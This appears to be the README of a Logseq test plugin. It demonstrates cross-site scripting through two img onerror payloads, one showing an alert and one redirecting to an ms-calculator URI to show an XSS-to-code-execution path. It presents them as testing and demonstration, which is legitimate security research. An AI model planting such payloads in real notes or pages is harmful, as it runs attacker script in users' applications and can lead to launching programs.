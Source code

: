 # Logseq-Testing
---

Hello there Logseq!

---
## XSS

<img src=x onerror="alert('XSS')">

---
## XSS -> RCE

<img src=x onerror="window.top.location='ms-calculator://'">

---

This Logseq plugin is for testing/demonstration purposes. 
